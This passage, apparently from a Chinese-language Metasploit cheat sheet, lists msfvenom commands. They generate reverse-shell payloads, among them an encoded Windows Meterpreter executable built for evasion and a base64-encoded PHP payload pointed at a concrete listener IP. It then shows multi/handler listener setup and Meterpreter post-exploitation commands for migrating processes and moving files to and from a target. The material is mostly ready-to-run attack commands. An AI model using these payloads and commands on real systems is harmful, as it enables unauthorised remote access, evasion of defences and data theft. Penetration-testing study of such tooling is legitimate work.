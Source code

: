         # Python Reverse Shell Raw
        msfvenom -p cmd/unix/reverse_python LHOST=<你的IP> LPORT=<你的端口> -f raw -o rev_shell.py

        # 生成带编码的 Payload
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -i 5 -f exe -o encoded_shell.exe

        # 编码现有 Payload
        msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 LPORT=4444 -f raw -e php/base64 -o encoded_payload.txt
        ```

### 6. Multi/Handler - 监听器

*   **用途**: 配合生成的 Payload（尤其是反向连接类型）使用，用于接收来自目标的回连并建立会话.
*   **使用方法**:
    ```
    use exploit/multi/handler
    set PAYLOAD <与生成时相同的Payload>  # e.g., windows/meterpreter/reverse_tcp
    set LHOST <监听IP>                  # e.g., 0.0.0.0 or your specific IP
    set LPORT <监听端口>                  # e.g., 4444
    exploit -j                          # -j runs the listener as a background job
    ```

### 7. Meterpreter - 高级后渗透 Shell

*   **获取**: 通常通过 `meterpreter/*` 类型的 Payload 获得.
*   **常用命令** (在 Meterpreter 会话中输入 `help` 查看完整列表):

    #### Core 命令
    *   `background`: 将当前 Meterpreter 会话放入后台.
    *   `exit` / `quit`: 终止当前 Meterpreter 会话.
    *   `guid`: 获取会话的全局唯一标识符.
    *   `help`: 显示帮助菜单.
    *   `info`: 显示关于后渗透模块的信息.
    *   `irb`: 打开交互式 Ruby Shell.
    *   `load`: 加载 Meterpreter 扩展.
    *   `migrate <PID>`: 将 Meterpreter 迁移到另一个进程以提高隐蔽性或稳定性.
    *   `run <脚本名>` or `run <post_module>`: 执行 Meterpreter 脚本或后渗透模块.
    *   `sessions`: 快速切换到另一个会话.

    #### 文件系统命令
    *   `cd <目录>`: 更改目录.
    *   `ls` / `dir`: 列出当前目录内容.
    *   `pwd`: 打印当前工作目录.
    *   `edit <文件>`: 编辑文件.
    *   `cat <文件>`: 显示文件内容.
    *   `rm <文件>`: 删除文件.
    *   `search -f <文件名模式>`: 搜索文件 (e.g., `search -f *.doc`).
    *   `upload <本地文件> <远程路径>`: 上传文件到目标.
    *   `download <远程文件> <本地路径>`: 从目标下载文件.
